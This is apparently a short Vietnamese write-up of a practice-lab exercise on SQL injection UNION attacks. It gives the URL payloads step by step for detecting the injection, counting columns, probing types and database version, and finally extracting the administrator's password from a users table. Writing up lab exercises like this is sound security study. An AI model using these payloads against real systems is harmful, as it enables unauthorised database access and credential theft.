

# Lab: SQL injection UNION attack, retrieving multiple values in a single column

## Yêu cầu

Đăng nhập với user `administrator`.

## 1. Phát hiện SQLi

Payload kiểm tra:

```text
/filter?category=Accessories'--
```

## 2. Đếm số cột

Payload:

```text
'+order+by+2--        // Valid
'+order+by+3--        // Error
```

Kết luận: truy vấn trả về 2 cột.


'+union+select+1,'a'--         // Cột 1 nhận số, cột 2 nhận string

'+union+select+1,version()--     // Hiển thị PostgreSQL


vì đã biết có bảng `users` với cột `username` nên payload:

```text
'+union+select+1,password+from+users+where+username='administrator'--
```

